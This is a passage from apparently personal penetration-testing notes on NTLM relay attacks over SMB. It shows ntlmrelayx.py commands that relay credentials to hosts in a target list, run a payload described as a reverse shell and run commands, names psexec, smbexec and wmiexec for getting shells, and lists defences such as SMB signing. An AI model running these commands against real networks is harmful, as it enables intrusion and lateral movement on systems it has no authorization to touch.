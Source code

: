 ![](/assets/Images-Notes-01/2022-01-07-00-08-30.png)
_ntlmrelayx.py interactive_

![](/assets/Images-Notes-01/2022-01-07-00-10-45.png)
_smb shell_

Other ways to abuse this feature are below.
```bash
ntlmrelayx.py -tf targets.txt -smb2support -i
ntlmrelayx.py -tf targets.txt -smb2support -e evil.exe # execute rev shell
ntlmrelayx.py -tf targets.txt -smb2support -c whoami # execute command
```

`msfconsole`'s psexec module / `psexec.py` will give complete cmd shell.

Sometimes it will require multiple attempts. Shares should be writeable.

Also try `smbexec.py` and `wmiexec.py`.

### Defence
> - Enable SMB Signing on all devices
>   - Pro : Completely stops the attack
>   - Con : Can cause performance issues with file copies.
> - Disable NTLM authentication on network.
>   - Pro : Completely stops the attack
>   - Con : If Kerberos stops working, Windows defaults back to NTLM.
> - Account tiering
>   - Pro : Limits domain admins to specific tasks.
>   - Con : Enforcing the policy may be difficult.
> - Local admin restriction
>   - Pro : Can prevent a lot of lateral movement.
>   - Con : Potential increase in the amount of service desk tickets.
